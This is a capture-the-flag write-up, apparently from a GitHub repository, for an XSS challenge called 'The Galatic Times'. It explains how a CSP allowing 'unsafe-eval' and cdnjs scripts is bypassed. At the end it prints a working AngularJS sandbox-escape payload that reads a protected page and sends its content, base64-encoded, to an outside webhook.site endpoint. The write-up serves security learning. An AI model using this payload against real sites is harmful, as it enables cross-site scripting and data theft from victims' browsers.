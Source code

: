 ## Extortion

Solved By: ?

##

## The Galatic Times

Solved By: Legacyy

This challenge is an XSS based challenge, very similar to *Alien Complain Form* and *Bug Report.*

When you send "feedback" to `/feedback`, it is shown on `/list`which is only accessible via `127.0.0.1`, aka the bot that will automatically navigate to that page once the feedback is sent. The catch however is this CSP policy

```html
default-src 'self';
script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com/;
style-src 'self' 'unsafe-inline' https://unpkg.com/nes.css/ https://fonts.googleapis.com/;
font-src 'self' https://fonts.gstatic.com/;
img-src 'self' data:;
child-src 'none';object-src 'none'
```

The second line here is our vulnerability - we are able to run the eval command as long as our script comes from [`https://cdnjs.cloudflare.com/`](https://cdnjs.cloudflare.com/)

This leads us to using an adapted version of this payload: [https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#unsafe-eval-js-cdn](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#unsafe-eval-js-cdn)

The adaptation that needs to be made is as follows...

The first url must be changed to an appropriate endpoint which we are listening on to capture the "stolen data" (aka get output from our XSS attack), and the second url must be changed to [`http://127.0.0.1:1337/alien`](http://127.0.0.1:1337/alien) because our flag is located at `/alien` meaning we want to grab the contents of the page. This is because the CSP states `default-src 'self'` meaning requests can only be made to the same domain that the document was loaded with, which the bot accesses [`http://127.0.0.1:1337/list`](http://127.0.0.1:1337/list).

From here we simply do some more work with js string manipulation to further shorten the base64 output sent to the server, this is done to avoid invalid requests being made when a url is too long etc. So I ended up with the following payload... Enjoy!

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };var z = new XMLHttpRequest();z.onreadystatechange = function() {if (z.responseText) location = "https://webhook.site/42bfc7b1-e0cf-4e32-b83c-46e83022e703/?data=" + btoa(unescape(encodeURIComponent(z.responseText.substring(z.responseText.search("CHTB{"), z.responseText.search("CHTB{")+50))))};z.open("GET", "http://127.0.0.1:1337/alien", false);z.send();//');}} </div>
```

Base64 decoding the given output gives us the flag!
